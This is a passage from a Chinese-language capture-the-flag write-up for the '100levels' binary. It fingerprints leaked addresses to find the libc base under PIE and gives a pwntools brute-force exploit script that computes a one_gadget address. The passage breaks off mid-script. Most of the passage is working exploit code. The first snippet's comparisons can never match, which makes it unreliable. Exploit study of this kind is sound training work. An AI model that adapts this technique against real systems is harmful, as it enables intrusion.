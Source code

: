根据PIE的原理和缺陷，我们可以把后三位作为指纹，识别泄露出来的地址是哪个:

```python
    if hex(addr)[-2:] == '0x7fa':   # puts+16A
        libc_addr = addr - 0x6F690 - 0x16a
    elif hex(addr)[-2:] == '0x620': # _IO_2_1_stdout_
        libc_addr = addr - 0x3C5620
    elif hex(addr)[-2:] == '0x81b': # _IO_file_overflow+EB
        libc_addr = addr - 0x7A730 -0xeb
    elif hex(addr)[-2:] == '0x409': # _IO_do_write+79
        libc_addr = addr - 0x7A390 - 0x79
    elif hex(addr)[-2:] == '0x6a3': # _IO_2_1_stdout_+83
        libc_addr = addr - 0x3C5620 - 0x83
    elif hex(addr)[-2:] == '0x2c0': # write+10
        libc_addr = addr - 0x0F72B0 - 0x10
    elif hex(addr)[-2:] == '0x899': # printf+99
        libc_addr = addr - 0x55800 - 0x99
```

最后针对泄露出来的无意义数据做一下处理，用try...except做一个自动化爆破，形成一个脚本:

```python
    from pwn import *
    i = 0
    while True:
        libc_addr = 0
        i += 1
        p=process('./100levels')
        try:
            print p.recv()
            p.send('1')
            p.recvuntil("levels?")
            p.send('2')
            p.recvuntil("more?")
            p.send('0')

            p.recvuntil("Question: ")
            question = p.recvuntil("=")[:-1]
            answer = str(eval(question))
            payload = answer.ljust(0x30,'\x00') + '\x5c'
            p.send(payload)

            p.recvuntil("Level ")
            addr = int(p.recvuntil("Question: ")[:-10])
            if addr < 0 :
                addr += 0x100000000
            addr += 0x7FF300000000
            if hex(addr)[-3:] == '7fa':   # puts+16A
                libc_addr = addr - 0x6F690 - 0x16a
            elif hex(addr)[-3:] == '620': # _IO_2_1_stdout_
                libc_addr = addr - 0x3C5620
            elif hex(addr)[-3:] == '81b': # _IO_file_overflow+EB
                libc_addr = addr - 0x7A730 -0xeb
            elif hex(addr)[-3:] == '409': # _IO_do_write+79
                libc_addr = addr - 0x7A390 - 0x79
            elif hex(addr)[-3:] == '6a3': # _IO_2_1_stdout_+83
                libc_addr = addr - 0x3C5620 - 0x83
            elif hex(addr)[-3:] == '2c0': # write+10
                libc_addr = addr - 0x0F72B0 - 0x10
            elif hex(addr)[-3:] == '899': # printf+99
                libc_addr = addr - 0x55800 - 0x99

            one_gadget = libc_addr + 0x45216
            log.info("try time %d, leak addr %#x, libc_addr at %#x, one_gadget at %#x" %(i, addr, libc_addr, one_gadget))
```